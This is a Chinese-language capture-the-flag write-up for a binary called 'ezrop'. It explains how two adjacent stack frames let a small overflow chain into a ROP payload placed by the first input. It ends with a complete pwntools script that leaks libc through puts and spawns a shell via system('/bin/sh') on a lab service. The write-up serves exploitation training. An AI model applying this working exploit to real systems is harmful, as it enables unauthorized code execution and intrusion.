







主函数是没有漏洞的，但是返回到的函数中却有问题



如上图存在一个0x10大小的栈溢出，到这里有很多同学想到的是栈迁移之类的操作，又或者是ret2text重新读入数据，但是这里拥有两个输入点，而先后两个函数栈是连在一起的

进行动态调试，将断点设置在调用第二个read的地方





这个时候查看栈



可以看出第一处红框是当前read准备读入的栈地址，第二处红框是当前栈帧的返回地址，下面的111是我们上一次的输入，这几个地方其实连在了一起，因此我们其实可以在第一次输入就开始布置rop链，而在第二次输入时直接ret到这个第一次输入的片段进行rop即可



直接在溢出部分写入ret将两个栈连接起来，之后就是经典的rop了

```python
# -*- encoding: utf-8 -*-
from pwn import * 
context.update( os = 'linux', arch = 'amd64',timeout = 1)
context.log_level = 'debug'
elf = ELF('./ezrop')
libc = elf.libc

# p = process('./ezrop')
p = remote('0.0.0.0',10002)

l64 = lambda            : u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
sa  = lambda a,b        : p.sendafter(str(a),str(b))


def attack():
    
    puts_got = elf.got['puts']
    puts_plt = elf.plt['puts']
    pop_rdi_ret = elf.search(asm('pop rdi;ret')).next()
    pop_r14_r15_ret = elf.search(asm('pop r14 ; pop r15 ; ret')).next()
    ret = pop_rdi_ret + 1
    main_addr = 0x000000000040120C

    payload = flat(
        pop_rdi_ret , puts_got,
        puts_plt , main_addr
    )
    sa('msg: ' , payload )

    payload = 'a'*0x18 + p64(ret)
    sa('name: ' , payload)
    libc.address = l64() - libc.sym['puts']
    system_addr = libc.sym['system']
    binsh_addr = libc.search('/bin/sh').next()

    payload = flat(
        pop_rdi_ret + 1 ,
        pop_rdi_ret , binsh_addr,
        system_addr 
    )
    sa('msg: ' , payload )
    payload = 'a'*0x18 + p64(ret)
    sa('name: ' , payload)
    
    p.interactive()

attack()

```

